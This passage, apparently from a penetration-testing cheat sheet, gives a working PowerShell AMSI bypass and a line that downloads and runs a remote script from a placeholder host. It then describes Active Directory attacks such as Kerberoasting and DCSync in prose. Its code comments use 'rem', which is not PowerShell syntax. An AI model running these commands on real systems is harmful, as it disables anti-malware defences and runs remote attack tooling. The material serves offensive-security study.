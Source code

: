 
#### **11. AMSI Bypass**
Disable anti-malware scanning for your current PowerShell session.
* **Exploit Command:**
    ```powershell
    rem -- Run this command first in your PowerShell session
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
    rem -- Now you can run enumeration scripts like PowerUp without being blocked
    IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerUp.ps1'); Invoke-AllChecks
    ```

---
---

## <a name="active-directory-exploitation"></a>2. Active Directory Exploitation

This section covers techniques for exploiting misconfigurations in an Active Directory environment.

### <a name="active-directory-exploitation-full-guide"></a>Active Directory Exploitation Full Guide

#### **Introduction to Active Directory Security** 🛡️
Active Directory is the backbone of most corporate networks. Compromising AD means gaining control over the entire domain. The methodology is a cycle: **Enumerate -> Find a Foothold -> Identify Attack Paths -> Execute & Escalate -> Achieve Domain Dominance -> Persist**.

---

#### **1. Enumeration: The Foundation of Every Attack**
You cannot attack what you do not know. Once you have a foothold as any domain user, your goal is to map out AD.
* **Core Tools:** PowerView, BloodHound (SharpHound), ADExplorer.
* **What to Look For:** Domain Information, Users & Groups, Computers, GPOs, Access Control Lists (ACLs).

---

#### **2. Common Attack Vectors & Exploitation**
* **Kerberoasting:** This attack targets service accounts. Any domain user can request a Kerberos service ticket (TGS) for any Service Principal Name (SPN). Part of this ticket is encrypted with the NTLM hash of the service account's password, which can be taken offline and cracked.
* **AS-REP Roasting:** This attack targets user accounts that have the setting "Do not require Kerberos preauthentication" enabled. This allows an attacker to request an Authentication Ticket (AS-REP) for that user without providing any credentials, and crack the user's hash offline.
* **Abusing Weak ACLs / Permissions:** This involves finding an object (a user, group, or computer) that your low-privilege user has the right to modify in a dangerous way (e.g., `GenericAll`, `GenericWrite`, `WriteDacl`). BloodHound is the best tool to visualize these attack paths.
* **DCSync:** If an account is granted `DS-Replication-Get-Changes` permissions, it can ask a Domain Controller to replicate password data, including the hash for the `krbtgt` account.
* **Active Directory Certificate Services (AD CS) Abuse:** If AD CS is misconfigured, it can be abused to request certificates that allow you to authenticate as other users, including Domain Admins.

---